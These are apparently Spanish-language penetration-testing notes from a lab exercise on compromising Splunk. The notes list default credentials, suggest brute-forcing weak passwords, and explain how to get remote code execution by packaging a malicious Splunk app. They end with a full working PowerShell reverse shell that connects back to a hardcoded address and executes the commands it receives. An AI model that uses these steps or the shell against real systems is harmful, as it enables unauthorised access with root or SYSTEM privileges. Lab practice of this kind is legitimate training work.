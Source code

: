 - Herramienta de recopilación, analisis y visualización de datos.
- Suele correr como root o SYSTEM.
- Corre por defecto en el puerto 8000
- La version free no requiere autenticación.
-  Default credentials: admin:changeme.
-  SI las credenciales anteriores no funcionan, siempre sirve hacer fuerza bruta con weak passwords.
-  Viene con python instalado.


### Enumeration

    https://10.129.201.50:8000/en-US/app/launcher/home

### Exploitation

Podemos tener RCE si creamos una aplicación en python, batch o Powershell.

##### 1) Creamos una aplicación con la estructura de directorios:

        splunk_shell/
        ├── bin
        └── default

##### 2) En la carpeta bin metemos los scripts que vamos a correr y en el directorio default tenemos que poner los inputs.conf

Script de shell reversa en powershell:

        #A simple and small reverse shell. Options and help removed to save space. 
        #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
        $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()



